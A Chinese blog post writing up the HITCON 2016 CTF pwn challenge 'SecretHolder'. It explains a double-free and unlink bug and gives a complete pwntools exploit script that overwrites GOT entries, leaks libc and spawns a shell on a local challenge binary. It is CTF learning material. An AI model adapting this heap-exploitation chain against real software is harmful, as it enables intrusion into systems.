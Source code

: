 ```yaml
---
layout: post
title: "HITCON2016--SecretHolder"
comments: false
---
```



>充满戏剧性和命运攸关的时刻在个人的一生中和历史的进程中都是难得的；这种时刻往往只发生在某一天、某一个小时甚至某一分钟，但它们的决定性影响却超越时间。
<p align="right">                            ——————《人类的群星闪耀时》</p>

----------------

就像茨威格所说，很多的历史时刻——天才灵感、历史转折、人类存亡，往往都发生在电光火石的瞬间。可就在这一瞬间，它们宛若星辰，普照消逝的黑夜，亘古不变。我们是不是身处这样的时刻却不自知呢？没事的时候我也曾思考这样的问题，本拉登被击毙算是吗？英国脱欧算是吗？我们学校日新楼开张算吗？特朗普逆袭成功算吗？我发现我无法回答。。。。不扯了，下面进入正题

再扯一句，政治精英VS草根川普，谁能想到川普竟然赢了（就算是喜欢他的人也不相信他一定会当上总统），难道是对手太猪，还是如今世道变了。真是期待以后剧情的发展(☆▽☆)

------------------------

这是一个月前的HITCON的一道100分的pwn题目，今天下午调了一下午才做出来。

---------------

### 题目简介

main函数：

![](http://o6uyyks1m.bkt.clouddn.com/oldsecret1.PNG)

main函数调用了另外三个函数，new,free,edit。

整个函数仅有三种内存块，small(40byte)、big(4000byte)、huge(40000byte)，而且每种内存最多存在一个对应内存块。在bss段存储的有3个布尔量对应三块内存，三个堆指针对应三块内存地址。

看一下wipe函数，漏洞主要出在这里

![](http://o6uyyks1m.bkt.clouddn.com/oldsecret2.PNG)

wipe函数free堆块的时候没有检查对应布尔量，而且free之后没有把指针置NULL，明显可以double free。

---------------------

### 漏洞分析

这里有一个坑，huge secret的大小大概是是40000byte，第一次分配它的空间的时候并没有用堆，而是系统mmap出来的内存。但是把它free一遍之后，再new一下，他的空间就是一个标准的堆块了。

double free和unlink结合起来威力巨大，恰好这个题就是。

我简单画了一下doublefree的图，

![](http://o6uyyks1m.bkt.clouddn.com/oldsecret3.png)

有了上面的基础我们就可以构造伪造的堆块，再利用bss的堆块指针，然后触发unlink就可以达到任意地址写。

有任意地址写权限之后，我们需要先leak出来libc相关的地址，再根据libc找到system函数，再写一遍就拿到shell了。

--------------

### exp



```python
from pwn import *
pwn = remote('127.0.0.1',12345)
# bss
small_ptr = 0x0000000006020B0
big_ptr = 0x00000000006020A0
huge_ptr = 0x00000000006020A8

def new_secret(block,content):
    pwn.recvuntil('3. Renew secret\n')
    pwn.sendline('1')
    pwn.recvuntil('3. Huge secret\n')
    pwn.sendline(block)
    pwn.recvuntil('Tell me your secret: \n')
    pwn.send(content)

def wipe_secret(block):
    pwn.recvuntil('3. Renew secret\n')
    pwn.sendline('2')
    pwn.recvuntil('3. Huge secret\n')
    pwn.sendline(block)

def renew_secret(block,content):
    pwn.recvuntil('3. Renew secret\n')
    pwn.sendline('3')
    pwn.recvuntil('3. Huge secret\n')
    pwn.sendline(block)
    pwn.recvuntil('Tell me your secret: \n')
    pwn.send(content)

new_secret('1',"a"*5)
wipe_secret('1')
new_secret('3','a'*20)
wipe_secret('3')
new_secret('2','a'*10)
wipe_secret('1')
new_secret('1','a'*10)
new_secret('3','a'*20)
#--------------------------------------
#| small_block| huge_block |  top_chunk
#|            |            |
#|   big_block  |huge_block|
#|

free_got = 0x000602018
puts_plt = 0x0004006C0
read_got = 0x000602040
atoi_got = 0x00602070

payload = ''
payload += p64(0x000) + p64(49) + p64(small_ptr-8*3) + p64(small_ptr-8*2)
payload += p64(32) + p64(0x61a90)

renew_secret('2',payload)
wipe_secret('3')
payload = ''
    #      padding      big_ptr       huge_ptr       samll_ptr
payload += p64(0x00) + p64(free_got) + p64(0x00) + p64(big_ptr)

renew_secret('1',payload)
renew_secret('2',p64(puts_plt))
renew_secret('1',p64(read_got))
wipe_secret('2')

data = pwn.recv(6).ljust(8,'\x00')
read_leak = u64(data)
log.critical('read_addr: ' + hex(read_leak))
system_addr = read_leak - 0x00db5b0 + 0x0003f460
log.critical('system_addr: ' + hex(system_addr))

renew_secret('1', p64(atoi_got) + p64(0x00) + p64(big_ptr) + p64(0x1)) # big_secret + huge_secret + small_secret + big_in_use_flag
renew_secret('2', p64(system_addr))
 # *atoi_got = system_addr

pwn.send('sh')
pwn.interactive()
```

---------------

### 踩过的坑

1. new和renew函数，发送内容用send函数，不能用sendline函数
2. 用puts_plt替换free_got，不能用puts_got
3. 泄露地址的时候多调几遍，这东西要靠运气

